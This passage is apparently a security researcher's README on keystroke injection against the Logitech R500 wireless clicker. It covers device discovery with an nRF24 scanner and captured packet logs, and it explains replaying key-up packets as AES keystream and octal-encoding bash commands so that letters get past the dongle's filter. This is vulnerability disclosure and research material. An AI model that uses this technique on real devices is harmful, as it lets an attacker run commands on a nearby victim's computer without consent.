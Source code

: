 ## Protocols

### Logitech Encrypted

#### Overview

This is the standard encrypted Logitech keyboard protocol, as used by the R500. It's sort-of vulnerable to the "encrypted keystroke injection" attack I documented with Logitech Unifying keyboards as part of the MouseJack project.

I say *sort-of*, because not all HID scan codes are accepted. Specifically, 0x04-0x1D (A-Z) are replaced by 0x00 when the dongle sends the packet to the host computer, which means we can inject whatever we want, as long as it isn't a letter. The other exception is that ctrl key-chords *are* allowed, even when they include letters.

Effective keystroke injection via the R500 requires that we get a little creative. 

Let's assume the target is in a bash session. In bash, we can encode our characters in base-8, encoding commands containing letters that we want our target to execute. 

For instance, `ping google.com` is encoded as `$'\160\151\156\147' $'\147\157\157\147\154\145\056\143\157\155'`. If we send this string to a bash session and then send `enter`, the command `ping google.com` will be invoked on the target machine. 

#### Device Discovery

You can find the address of your Logitech R500 using `nrf24-scanner` as follows:

```sudo ./tools/nrf24-scanner.py -c {2..74..3} -l```

Packets should look something like this:

```
[2019-04-21 13:11:52.507]  62   5  85:D1:9D:FE:07  00:40:00:08:B8
[2019-04-21 13:11:52.515]  62   5  85:D1:9D:FE:07  00:40:00:08:B8
[2019-04-21 13:11:52.523]  62  22  85:D1:9D:FE:07  00:D3:4D:6F:B6:1B:E6:05:A2:B4:8B:98:F9:C2:00:00:00:00:00:00:00:81
```

#### Injection

Injection is possible because the dongle doesn't enforce incementing AES counters, so you can replay packets. A packet sent OTA is made up of a USB HID payload which has been encrypted in AES counter mode, and then the counter. When you press a button on the presentation clicker, it generates a key down packet, and a key up packet. The key up packet is all 0's, which gives us nice and clean key material that we can reuse, XOR with our own payload, and send OTA.

It shouldn't be hard to automate the process of listening for a button press, pulling out the second (key up) packet, and automatically using it for the key-material reference. But I'm lazy, so you'll first need to watch a button press yourself, which looks like this:

```
[2019-04-21 16:02:56.451]  65   5  85:D1:9D:FE:07  00:40:00:08:B8
[2019-04-21 16:02:56.459]  65   5  85:D1:9D:FE:07  00:40:00:08:B8
[2019-04-21 16:02:56.468]  65  22  85:D1:9D:FE:07  00:D3:E6:7B:35:8C:BB:2C:7D:5B:8B:98:FA:76:00:00:00:00:00:00:00:B9
[2019-04-21 16:02:56.475]  65   5  85:D1:9D:FE:07  00:40:00:08:B8
[2019-04-21 16:02:56.507]  65   5  85:D1:9D:FE:07  00:40:00:08:B8
[2019-04-21 16:02:56.516]  65  22  85:D1:9D:FE:07  00:D3:99:D6:D3:8D:49:25:F5:4D:8B:98:FA:77:00:00:00:00:00:00:00:1A
[2019-04-21 16:02:56.524]  65   5  85:D1:9D:FE:07  00:40:00:08:B8
[2019-04-21 16:02:56.532]  65   5  85:D1:9D:FE:07  00:40:00:08:B8
``` 

The second 22-byte packet is the key-up packet. 

```